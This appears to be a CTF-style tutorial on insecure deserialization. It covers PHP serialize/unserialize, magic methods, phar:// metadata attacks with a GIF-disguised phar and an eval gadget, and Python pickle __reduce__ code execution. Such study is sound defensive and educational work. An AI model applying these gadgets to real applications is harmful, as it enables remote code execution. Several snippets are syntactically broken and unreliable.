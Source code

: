 # Unserialization
Vulnerability of unserialization exists in many program languages，please remember the basic concept：**serialize：convert object to the string; unserialize：convert string to the object**.  
*  [PHP Unserialization](#php-unserialization)  
   *  [Serialization vs Unserialization](#serialization-vs-unserialization)  
   *  [Magic Function](#magic-function)  
   *  [Reference](#reference1)  
   *  [unserialize with phar](#unserialize-with-phar)  
   *  [what is phar?](#what-is-phar)  
   *  [how to exploit?](#how-to-exploit)  
   *  [Reference](#reference2)  
*  [Python Unserialization](#python-unserialization)  
   *  [Magic Function](#magic-function)  
   *  [Exploit](#exploit)  
   *  [Reference](#reference3)
  

# PHP Unserialization
It's always used in Cookie and session. If the parameter of `unserialize()` can be controlled，we can build up a payload to overwrite specific variable or change control flow. The concept of **POP CHAIN** is important in unserialization. The chain starts from the `unserialize()` to each possible magic functions.  

## Serialization vs Unserialization
Basically speaking：  
`serialize()`: convert object to string
`unserialize()`: convert string to object  
```php
class pwnch(){
  $test = "helloworld";
  function __wakeup(){
      echo "hello again";
  }
}
echo serialize(new pwnch());   // OUTPUT: O:5:"pwnch":1:{s:4:"test";s:10:"helloworld";}
```
OUTPUT: `O` means object, `5` is the length of object name. `1` is the size of attribute, `4` is the length of variable name, format is `key:value`.  

Type | Syntax  
------------ | -------------  
String | `s:size:value;`  
Integer | `i:value;`  
Boolean | `b:value;`  
NULL | `N;`  
Array | `a:size:{key-type:key-value;value-type:value-value;}`  
Object | `O:strlen(Object):class-name:object size:`  
------------ | -------------  
public | `{s:4:"test"}`  
private | `{s:11:"%00pwnch%00test"}`  
protected | `{s:7:"%00*%00test"}`  

## Magic Function
* `construct()`: called when new a object，but won't be called when unserialize()  
* `destruct()`: called when destroy a object，also be called when unserialize  
* `__sleep()`: run at the first moment of serialize  
* `__wakeup()`: run at the first moment of unserialize  
* `__toString()`: called when `echo` a object, so user don't need explicit function call and able to define how object return the string.  

## Reference1
1. [chybeta's blog](https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)  

## unserialize With phar
Sam Thomas published a new way to trigger a unserialization without use of `unserialize()` in blackhat 2018. This can be done with stream wrapper of `phar://`.  
Trace to the kernel of PHP, we can find that `meta-data` would be unserialized when library function use `phar://` to parse the document. Therefore, we can build up a malicious phar document and pass to file functions such as:  
```php
// file(phar://) -> unserialization
// from now on, trigger point is not limited to unserialize() anymore :)
file_exists, file_get_contents, file_put_contents, file, fopen, is_dir, is_executable, is_file, is_link, is_readable, is_writable, copy, unlink, stat, readfile
```  
Just a little test can prove the concept:  
```php
class Test {
        public function __destruct() {
            echo 'unserialization happen!';
      }
}

file_exists($filename);
// $filename = phar://uploaded/xxx.gif
```  
Then you can see **unserialization happen!**.  

## What is phar
PHP can use phar to archive a file. A phar file can be separated into 4 parts: stub(`anything<?php blah; __HALT_COMPILER();?>`), manifest(which is the core of exploit), compressed contents, optional signature.  
```php
$p = new Phar('test.phar');
$p->startBuffering();
$p->addFromString('test.txt', 'text');
$p->setStub('<?php __HALT_COMPILER(); ?>');

class HiClass{}
$o = new HiClass;
$o->data = '1pwnch';
$p->setMetadata($o);
$p->stopBuffering();
```
## How to exploit
Therefore, there are three requirements to implement it: `magic file function`, `uploadable file`, `phar:// is allowed`.  
1. We might not be able to upload the phar file to the website directly. However, we can add other header(stub) to forge it.  
```php
// generate phar
class Test {
   $var out = 'hello';
   function __destruct(){
        eval($this -> out);
   }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");     // forge to gif and upload to application?filename=phar://uploads/exp.gif
..........
```
[Find more detail here](http://blog.1pwnch.com/websecurity/2018/11/24/The-Magic-Power-of-Phar/#more)  

2. Trace any function: whether it **calls file open function** in the bottom side, then whether we can control its parameter. What's more interesting, it even can be used to make a DOS attack.  

## Reference2
1. [Blackhat议题解读 | 利用 phar 拓展 php 反序列化漏洞攻击面](https://www.anquanke.com/post/id/157657)  
2. [blackhat议题深入 | phar反序列化](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247485159&idx=1&sn=50b2e94d2d6fc5f69c540113ae9b3f1c&chksm=e89e2e3fdfe9a729869444aa593e97b52970add524b219553f646e8af2aec06e25e8678e7dde&mpshare=1&scene=23&srcid=0822QPN3ZXccNvKuWTQoahLi#rd)

# Python unserialization
[關於模塊的細節我相當推這篇文章](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)  
Functions **pickle** and **cPickle** also can realize the function of serialization  
1. `cPickle.dumps`: object -> string  
2. `cPickle.loads`: string -> object  
You can also use dump/load，but I won't talk about it here.  
vulnerability of unserialization in python is more serious than in php，we can use this module to build RCE！  

## Magic Function
`reduce` will change the target of unserialization，therefore the parameter is controllable
```python
// magic function: reduce
import cPickle
import os

class People(object):

    def __init__(self,username,password):
        self.username = username
        self.password = password

    def __reduce__(self):
        return (os.system, ('ls',))

michael = People('admin','password')
print cPickle.loads(cPickle.dumps(michael))
// Output: ls (the result of ls
```  
We need `cPickle.loads` to trigger the vulnerability. His type of parameter is string，therefore we cannot use `cPickle.loads(michael)`，I use dumps to convert it inside.  

## Exploit
It's always combined with the web in CTF，such as `<?php system("echo $data | python vul.py")?>`. There might be a IO in `vul.py`，so I should deliver my data to the object with **magic function** which has been converted to string.  

## Reference3
1. [Python反序列化小记](https://www.jianshu.com/p/061d2c594d97)  
2. [序列化和反序列化模块pickle介绍 | Python库](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)
